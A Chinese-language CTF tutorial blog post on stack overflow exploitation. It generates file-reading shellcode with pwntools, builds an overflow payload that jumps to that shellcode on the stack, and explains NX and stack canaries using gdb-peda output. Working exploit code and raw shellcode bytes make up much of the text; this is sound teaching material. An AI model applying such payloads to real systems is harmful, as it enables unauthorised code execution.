 ```yaml
---
id: 778
layout: post
title: '二进制安全之栈溢出（三）'
date: 2017-10-22 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


上一篇文章中控制了函数的返回地址，将地址修改为已有的指令地址，但是为了实现任意代码执行，是需要将返回地址修改为我们可以控制的 shellcode 的地址的。


## shellcode

在 http://docs.pwntools.com/en/stable/shellcraft/amd64.html#module-pwnlib.shellcraft.amd64.linux 有使用 pwntools 生成 shellcode 的文档。我选择了一个读取文件的 shellcode。

```python
>>> from pwn import *
>>> code = shellcraft.amd64.linux.cat("flag")
>>> asm_code = asm(code, arch="amd64", os="linux")
>>> print code
    /* push 'flag\x00' */
    push 0x67616c66
    /* call open('rsp', 0, 'O_RDONLY') */
    push SYS_open /* 2 */
    pop rax
    mov rdi, rsp
    xor esi, esi /* 0 */
    cdq /* rdx=0 */
    syscall
    /* call sendfile(1, 'rax', 0, 2147483647) */
    mov r10d, 0x7fffffff
    mov rsi, rax
    push SYS_sendfile /* 0x28 */
    pop rax
    push 1
    pop rdi
    cdq /* rdx=0 */
    syscall

>>> print repr(asm(code))
'hflagj\x02XH\x89\xe71\xf6\x99\x0f\x05A\xba\xff\xff\xff\x7fH\x89\xc6j(Xj\x01_\x99\x0f\x05'
>>> print len(asm_code)
34
```

因为这段 shellcode 长度只有 34 个字节，完全可以塞入栈中，然后我们使用之前的办法，确定一个返回地址就可以了，这里就是 `student` 结构体的起始地址。

```python
from pwn import *

code = shellcraft.amd64.linux.cat("flag")
shellcode = asm(code, arch="amd64", os="linux")
data =  "1925\n" + shellcode + "A" * (0x7fffffffe348 - 0x7fffffffe2f0 - len(shellcode)) + p64(0x7fffffffe2f0)

print data
```

## NX 栈不可执行

在 GDB 中运行，会得到一个 SIGSEGV，并不会得到 flag。

```
gdb-peda$ r < in.txt
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < in.txt
What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7b04290 (<__write_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd3780 --> 0x0
RSI: 0x602010 ("You Speed One Second Here.\n")
RDI: 0x1
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe350 --> 0x0
RIP: 0x7fffffffe2f0 --> 0x58026a67616c6668
R8 : 0x2e6572654820646e ('nd Here.')
R9 : 0x1b
R10: 0x0
R11: 0x246
R12: 0x4005c0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe420 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7fffffffe2ea:	add    bh,bh
   0x7fffffffe2ec:	add    DWORD PTR [rax],eax
   0x7fffffffe2ee:	add    BYTE PTR [rax],al
=> 0x7fffffffe2f0:	push   0x67616c66
   0x7fffffffe2f5:	push   0x2
   0x7fffffffe2f7:	pop    rax
   0x7fffffffe2f8:	mov    rdi,rsp
   0x7fffffffe2fb:	xor    esi,esi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe350 --> 0x0
0008| 0x7fffffffe358 --> 0x7fffffffe428 --> 0x7fffffffe6b4 ("/home/virusdefender/Desktop/pwn/new/vuln")
0016| 0x7fffffffe360 --> 0x1f7ffcca0
0024| 0x7fffffffe368 --> 0x4006b6 (<main>:	push   rbp)
0032| 0x7fffffffe370 --> 0x0
0040| 0x7fffffffe378 --> 0xd7d0880889372de6
0048| 0x7fffffffe380 --> 0x4005c0 (<_start>:	xor    ebp,ebp)
0056| 0x7fffffffe388 --> 0x7fffffffe420 --> 0x1
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00007fffffffe2f0 in ?? ()
```

而且可以看到我们的地址计算是没问题的，只是 shellcode 第一个指令就挂掉了。

原因是并不是所有的内存区域都可执行的，使用 `vmmap` 可以看到，`0x00007fffffffe2f0` 所在的区域（`[stack]` 区域或者使用 `vmmap 0x00007fffffffe2f0`）是 `rw-p`，是没有 `x` 执行权限的。

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/virusdefender/Desktop/pwn/new/vuln
0x00600000         0x00601000         r--p	/home/virusdefender/Desktop/pwn/new/vuln
0x00601000         0x00602000         rw-p	/home/virusdefender/Desktop/pwn/new/vuln
0x00602000         0x00623000         rw-p	[heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p	mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fda000 0x00007ffff7fdd000 rw-p	mapped
0x00007ffff7ff6000 0x00007ffff7ff8000 rw-p	mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
```

这其实是 Linux 对漏洞利用的缓解措施中的一种，标记部分内存不可执行，使用 `checksec` 可以查看漏洞利用缓解措施的状态。

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

`NX` 就是标记内存不可执行，这里是 `ENABLED` 状态。

`CANNARY` 是编译器会插入一些标记和检查指令，如果栈溢出的时候把它们覆盖了，那检查的时候就会导致导致进程退出。我们使用了 `-fno-stack-protector` 禁用了这个特性。

其他的遇到的时候再说。

所以我们应该使用的编译参数是 `gcc -g -O0 -fno-stack-protector -z execstack -o vuln main.c`，这样才可以正常运行 payload，最后的 SIGSEGV 是因为堆栈不平衡导致的。

这样就可以看到 student 的内存区域是可执行的了。

```
gdb-peda$ vmmap 0x7fffffffe2f0
Start              End                Perm	Name
0x00007ffffffde000 0x00007ffffffff000 rwxp	[stack]
```

```
gdb-peda$ r < in.txt
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < in.txt
What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
THIS_IS_FLAG

Program received signal SIGSEGV, Segmentation fault.
```

## 参考

 - https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/
 - https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/
 - https://www.mattandreko.com/2011/12/17/exploit-exercises-protostar-stack-5/




